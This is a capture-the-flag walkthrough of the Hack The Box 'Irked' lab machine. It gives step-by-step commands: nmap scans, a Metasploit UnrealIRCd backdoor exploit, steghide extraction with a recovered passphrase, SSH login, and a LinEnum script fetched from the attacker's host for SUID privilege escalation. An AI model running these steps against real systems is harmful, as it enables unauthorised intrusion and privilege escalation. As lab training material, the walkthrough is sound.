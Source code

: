 # Hack the box - Irked

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/linux.png"> </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.117</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2018 Nov 17</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.117
```

![Nmap results](./nmap.png)

We can see that machine has web server and IRC service running.

## Web exploration

On the web page there is strange picture with text:

![Web](web.png)

It could have hidden message inside so let's try to download it:

![Image source](image_source.png)

```
wget http://10.10.10.117/irked.jpg
```

![Image download](image_download.png)

## Image checking

First of all, we can check potential string contents inside:

```
strings -n 7 irkled.jpg
```

![Image strings](image_strings.png)

Current image strings indicate that it uses steghide. We have to investigate further to get passphrase. 

## Additional scans

Since server uses IRC, it could have more ports running so it is good idea to rescan with nmap for aditional ports:

```
nmap -sC -sV -p- -T4 -oA nmapall 10.10.10.117
```

![Nmap all](nmap_all.png)

There are 4 more ports found that indicate that machine uses unrealIRCd. Time to check for potential vulnerabilities:

```
searchsploit unrealIRCd
```

![Searchsploit unrealIRCd](searchsploit_unrealircd.png)

One of results is available on metasploit framework. 

## Exploitation

Time to check if exploitation works:

```
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set rhosts 10.10.10.117
exploit
```

![Exploit attempt 1](exploit_try_1.png)

On port 6667 exploit does not work. We could try it on another port:

```
set RPORT 8067
exploit
```

![Exploit attempt 2](exploit_try_2.png)

We have success with port 8067.

## Looking for sensitive data

We have to upgrade our tty and identify users:

![Internal recon](internal_recon.png)

There is user named djmardov. Maybe he has some sensitive data to share:

![Got backup file](got_password.png)

We go passphrase for our downloaded image file. Time to crack it:

```
steghide extract -sf irked.jpg --passphrase UPupDOWNdownLRlrBAbaSSss
```

![Image secret revealed](steg_crack.png)

The image have password inside. Try to ssh with it:

```
ssh djmardov@10.10.10.117
```

![User flag](user_flag.png)

First user flag :)

## Privilege escalation

For gathering information we could use linux enumeration script:

Local:
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
sudo python -m http.server 80
```

Target:
```
wget http://10.10.x.x/LinEnum.sh
```

![Download linux enumeration tool](download_linenum.png)

```
chmod +x LinEnum.sh
./LinEnum.sh
```

![Interesting SUID file](interesting_suid.png)

We found interesting SUID file that we could exploit.

![View user file](run_viewuser.png)

There is file missing from this script. We can use it to our own advantage:

![Root flag](root_flag.png)